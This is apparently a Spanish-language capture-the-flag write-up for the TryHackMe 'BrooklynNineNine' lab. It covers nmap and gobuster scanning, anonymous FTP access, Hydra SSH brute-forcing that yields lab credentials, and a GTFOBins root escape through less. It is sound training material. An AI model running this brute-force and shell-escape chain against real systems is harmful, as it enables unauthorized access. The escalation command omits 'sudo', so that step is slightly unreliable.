# BrooklynNineNine - TryHackMe Writeup

## 1. Reconocimiento

Inicié escaneo básico con nmap para detectar los posibles puertos abiertos.

```bash
nmap -sS -Pn --min-rate 5000 --top-ports 10000 --open -vvv 10.112.159.116 -oG allPorts
```



Puertos abiertos:

    21/TCP (FTP)
    
    22/TCP (SSH)

    80/TCP (HTML)

## 2. Enumeración

### 2.1 Análisis de servicios

Realicé un escaneo exhaustivo sobre los puertos encontrados anteriormente para detectar los servicios.

```bash
nmap -sCV -p21,22,80 10.112.159.116 -oN targeted
```



Hallazgo clave: El servicio FTP permite acceso con el usuario Anonymous.

### 2.2 Inspección FTP

Me conecté de forma anónima al servicio ftp proporcionando el usuario *Anonymous* y contraseña *anonymous*.



Una vez dentro, listé los archivos existentes, donde encontré el archivo *note_to_jake.txt*, y con el comando get me lo transferí a mi máquina local.



### 2.3 Lectura de archivo

Leyendo los archivos encontré dos posibles usuarios, Jake y Amy.



### 2.4 Enumeración web

Al acceder a la página web con la dirección ip proporcionada no pude localizar nada interesante.



### 2.5 Gobuster

Empleo gobuster para buscar posibles directorios y no encuentro ninguno que me pueda proporcionar nada interesante.



## 3. Explotación

### 3.1 Fuerza Bruta Hydra

Al no haber encontrado nada interesante en la página web, probamos la fuerza bruta con hydra proporcionando el nombre *Jake*.

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.112.159.116
```


Credenciales encontradas:
    jake:987654321

### 3.2 Acceso Inicial

Accedemos por ssh proporcionando nombre y contraseña y nos conectamos correctamente. 



*//Me falta poner la user flag//*

## 4. Escalada de Privilegios

### 4.1 Analisis de privilegio sudo

Una vez dentro con el usuario *Jake*, listé sus permisos de sudo para buscar vectores de escalada:

```bash
sudo -l
```

Resultado: El usuario *Jake* puede ejecutar /usr/bin/less como root sin necesidad de credenciales.

Utilizando la información de GTFOBins, ejecuté el siguiente comando para obtener una shell de root:

```bash
less /etc/profile
!/bin/sh
```



### 4.2 Root Flag




